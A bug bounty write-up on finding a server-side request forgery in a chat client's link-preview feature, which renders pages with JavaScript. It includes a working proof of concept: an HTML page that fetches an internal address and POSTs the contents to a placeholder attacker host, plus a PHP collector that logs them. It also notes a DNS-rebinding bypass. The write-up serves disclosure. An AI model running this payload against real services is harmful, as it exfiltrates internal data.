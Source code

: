# [bugbounty]A Simple SSRF
This is a private program

First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.

After installation, sign up for login, then I see a chat interface.

Send a URL

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**poc**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)
**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)
Details from https://github.com/mpgn/ByP-SOP

Finally ![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)
